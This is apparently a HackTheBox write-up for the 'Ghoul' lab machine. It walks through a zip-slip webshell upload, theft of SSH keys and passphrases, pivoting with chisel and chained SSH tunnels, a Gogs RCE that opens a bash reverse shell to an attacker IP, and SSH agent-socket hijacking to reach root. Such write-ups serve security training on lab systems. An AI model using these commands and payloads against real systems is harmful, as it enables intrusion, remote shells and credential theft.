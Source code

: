 ```yaml
---
title: "HackTheBox - WriteUp 12"
date: 2019-07-08T13:16:37+08:00
description: "HackTheBox 练手 - Ghoul - Pivoting"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Ghoul 

Initial Scan: 22 Port for SSH, 2222 Port for SSH(Inaccessible from outside), 80 (Apache), 8080 (Tomcat 7.0.88 + Coyote).

## User

Tomcat has a CVE-2017-12617, however, it only works before 7.0.81, so useless.

Access Port 8080, using a weak password as your credentials: `admin:admin`, After that, you should go through the whole page and click each button you can click to get the information. Here, as you know, a Tomcat means Java Web Application. After you click the right button of the banner, you will see a ZIP upload form.

Check here before continue: https://snyk.io/research/zip-slip-vulnerability

so find a place in `/var/www/html` (default directory of webroot with Apache), and place your PHP trojan here, `zip tstsh.zip ../../../../../../../var/www/html/trjyg7.php`, zip will allow this absolute to be put into an archive file. Then upload to the site an access it via port 80 with `http://10.10.10.101/trjyg7.php`.

In your webshell, download the following files:

- /var/backups/backups/*.backup 
- /var/www/html/secret.php

The files in first, is SSH Private keys with passphrase. The second file is gonna tell you the passphrase as `ILoveTouka`.

After this step, you've already got user access with `/home/kaneki/user.txt`.

Check the Tomcat config, you'll find a commented credentials: `admin:test@aogiri123`.

Check the other two private keys, you just get the info that kaneki is the administrator here.

## Root

### Internal network scanning

Clone this repo as part of your toolsets: https://github.com/andrew-d/static-binaries

Upload nmap to the box, scan the box `Aogori 172.20.0.10(22, 2222 For SSH, 80 For HTTP, 8080 For Tomcat)` in a /24, you'll find that you're in a Docker container. Found another machine called `kaneki-pc 172.20.0.150+172.18.0.200 (22 For SSH)`, then nmap again found `172.18.0.2(22 For SSH + 3000 For Gogs)`.

Login into kaneki-pc with kaneki_pub using the same private key and passphrase. Inside the home, `/home/kaneki_pub/to-do.txt` tells you git username `AogiriTest`, password is the one we just found `test@aogiri123`, PLEASE KEEP IN MIND: THE USERNAME IS CASE-SENSETIVE HERE!

### Pivoting to GOGS

Go here to build a tunnel:  https://github.com/jpillora/chisel

`./chisel client 10.10.16.118:23033 R:6672:172.18.0.2:3000` on `kaneki-pc`,
`./chisel server -p 23033 --reverse -v` on your local machine.

You have this forward chain, access `localhost:6672`, you should can access gogs with http.

#### What if SSH?

`ssh -i kaneki.backup -L 4455:localhost:23011 kaneki@10.10.10.101` -> `ssh -L 23011:localhost:23111 kaneki_pub@172.20.0.150` -> `ssh -L 23111:172.18.0.2:3000 kaneki_pub@127.0.0.1`  That works perfectly!

So the whole procedure is: `10.10.16.118:4455 -> 10.10.10.101:23011 -> 172.20.0.150:23111 -> 172.18.0.2:3000`

Check here for reference: https://superuser.com/questions/96489/an-ssh-tunnel-via-multiple-hops

### GOGS RCE

There's 2 CVE here, 2018-18925(Fixed in 0.11.79), 2018-20303(Fixed in 0.11.86). The installed version is 0.11.66.0916.

Clone this repo: https://github.com/TheZ3ro/gogsownz

Run `nc -lvp 44044` then `python3 gogsownz.py http://localhost:4455/ -n i_like_gogits -C "AogiriTest:test@aogiri123" --rce "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.12.168/44044 0>&1'"`, you will get a reverse shell as git user.

Since `git` shell is `/bin/bash`, you just need to run LinEnum here. Check the `s6-supervise` and `s6-svscan`, you will learn it use `gosu` to run service on root.

Run a web server on kaneki-pc with webroot `~/.ssh` then directly `wget http://172.18.0.200:8080/authorized_keys` then disconnect the reverse shell and change to SSH shell with `ssh git@172.18.0.2` Then `gosu 0:0 /bin/bash`, you have the root of the GOGS docker. Download the files in the home, a `aogori-chat.7z` and `session.sh`.

Unarchive this 7-zip file, `grep -n password ./*`, you will find a password. But it's a git repository, and from `git log` you can see someone may mistakenly commits the high-privileged password. But it is `git reset --hard` -ed, so `git show ORIG_HEAD`, you will get a password: `7^Grc%C\7xEQ?tb4`, use this password to `su root` on `kaneki-pc`. It works.

Reference:  https://stackoverflow.com/questions/964876/head-and-orig-head-in-git

## Get actual root

Reference:  http://blog.7elements.co.uk/2012/04/ssh-agent-abusing-trust-part-1.html?m=1

On `kaneki-pc`, after `su root` you will find `/root/root.txt` which tells you progress is still not 100% XD. Run `pspy64 -f -r /tmp` with root permission, and wait for about 5 mins. You will notice a process: `ssh -p2222 -t root@172.18.0.1 ./log.sh` and with a file created like that `/tmp/ssh-blahblah/agent.1234`. So save the below as a script file. You only have 50 seconds here each round.

My script attached here:

```bash
#!/bin/bash

SOCKKEY=$1
SOCKPID=$2

export SSH_AUTH_SOCK=/tmp/ssh-$SOCKKEY/agent.$SOCKPID
ssh -p2222 root@172.18.0.1
```

Then after you get the notification again, run `./runroot.sh blahblah 1234`, you will get a SSH connection to physical host of the machine. There's a real `/root/root.txt`.

> This process can be automated if you edit your `/etc/ssh/ssh_config`, 
> Works like that:

```
Host *
  ControlPath /tmp/%r@%h:%p
  ControlMaster auto
  ControlPersist Yes
```

> Then: `ssh -O check -S /tmp/root\@172.18.0.1\:2222 %h`, 
> Then: `ssh -S /tmp/root\@172.18.0.1\:2222 %h`, 
> You will have the session.

I personally prefer the scripting way instead of editing config...

(END)

